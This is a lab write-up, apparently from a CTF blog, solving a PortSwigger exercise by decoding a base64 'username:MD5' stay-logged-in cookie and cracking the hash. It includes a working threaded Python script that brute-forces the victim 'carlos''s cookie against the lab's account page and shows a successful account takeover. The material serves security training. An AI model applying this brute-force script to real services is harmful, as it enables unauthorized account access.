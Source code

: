 # Brute-forcing a stay-logged-in cookie | Dec 22, 2022

## Introduction

Welcome to my another writeup! In this Portswigger Labs [lab](https://portswigger.net/web-security/authentication/other-mechanisms/lab-brute-forcing-a-stay-logged-in-cookie), you'll learn: Brute-forcing a stay-logged-in cookie! Without further ado, let's dive in.

- Overall difficulty for me (From 1-10 stars): ★☆☆☆☆☆☆☆☆☆

## Background

This lab allows users to stay logged in even after they close their browser session. The cookie used to provide this functionality is vulnerable to brute-forcing.

To solve the lab, brute-force Carlos's cookie to gain access to his "My account" page.

- Your credentials: `wiener:peter`
- Victim's username: `carlos`
- [Candidate passwords](https://portswigger.net/web-security/authentication/auth-lab-passwords)

## Exploitation

**Login page:**

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/Authentication/Auth-9/images/%2020221222032100.png)

In here, we can see that there is a **`Stay logged in` checkbox**.

**Let's try to login as user `wiener`:**

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/Authentication/Auth-9/images/%2020221222032341.png)

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/Authentication/Auth-9/images/%2020221222032405.png)

When we click the `Log in` button, **it'll send a POST request to `/login`, with parameter `username`, `password`, and `stay-logged-in`.**

Also, it sets a new cookie called `stay-logged-in`, and **the value looks like is base64 encoded!**

**Let's try to base64 decode that:**
```
┌──(root🌸siunam)-[~/ctf/Portswigger-Labs/Authentication]
└─# echo "d2llbmVyOjUxZGMzMGRkYzQ3M2Q0M2E2MDExZTllYmJhNmNhNzcw" | base64 -d
wiener:51dc30ddc473d43a6011e9ebba6ca770
```

**Hmm... Looks like the format is `username:password_hash`.**

**And that hash seems to be MD5. Let's use `hash-identifier` to verify that:**
```
┌──(root🌸siunam)-[~/ctf/Portswigger-Labs/Authentication]
└─# hash-identifier '51dc30ddc473d43a6011e9ebba6ca770' 
[...]
Possible Hashs:
[+] MD5
[...]
```

Yep, it's MD5 hash.

How about cracking it?

**An online tool called [CrackStation](https://crackstation.net/) may help us:**

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/Authentication/Auth-9/images/%2020221222032829.png)

Nice! The MD5 hash is the `wiener`'s password!

**Armed with above information, we can try to brute force user `carlos` password!**

**To do so, I'll write a python script:**
```py
#!/usr/bin/env python3

import requests
from threading import Thread
from time import sleep
from hashlib import md5
from base64 import b64encode

def fetchPassword(filename):
    listStayloggedinCookie = list()

    with open(filename) as fd:
        for line in fd:
            password = line.strip().encode('utf-8')
            MD5Hash = md5(password).hexdigest()
            base64Encoded = b64encode(f'carlos:{MD5Hash}'.encode('utf-8'))

            listStayloggedinCookie.append(base64Encoded)

    return listStayloggedinCookie

def sendRequest(url, cookieValue):
    cookie = {
        'session': 'h826pmhwmUE0tzA8p8tCgCh41CmBJTrU',
        'stay-logged-in': cookieValue
    }

    myaccountRequestText = requests.get(url, cookies=cookie).text

    if 'Log in' not in myaccountRequestText:
        print(f'[+] Found cookie: {cookieValue}')

def main():
    url = 'https://0a080047046d799ec0a38150005b0090.web-security-academy.net/my-account'

    passwordFileName = './auth_password.txt'
    listStayloggedinCookie = fetchPassword(passwordFileName)

    for cookieValue in listStayloggedinCookie:
        thread = Thread(target=sendRequest, args=(url, cookieValue.decode('ascii')))
        thread.start()
        sleep(0.2)

if __name__ == '__main__':
    main()
```

```
┌──(root🌸siunam)-[~/ctf/Portswigger-Labs/Authentication]
└─# python3 enum_password_cookie.py
[+] Found cookie: Y2FybG9zOjBhY2Y0NTM5YTE0YjNhYTI3ZGVlYjRjYmRmNmU5ODlm
```

- Found `carlos` `stay-logged-in` cookie: `Y2FybG9zOjBhY2Y0NTM5YTE0YjNhYTI3ZGVlYjRjYmRmNmU5ODlm`

**Let's change our `stay-logged-in` cookie value to that:**

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/Authentication/Auth-9/images/%2020221222040631.png)

**Then go to `/my-account`:**

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/Authentication/Auth-9/images/%2020221222040705.png)

We're user `carlos`!

# What we've learned:

1. Brute-forcing a stay-logged-in cookie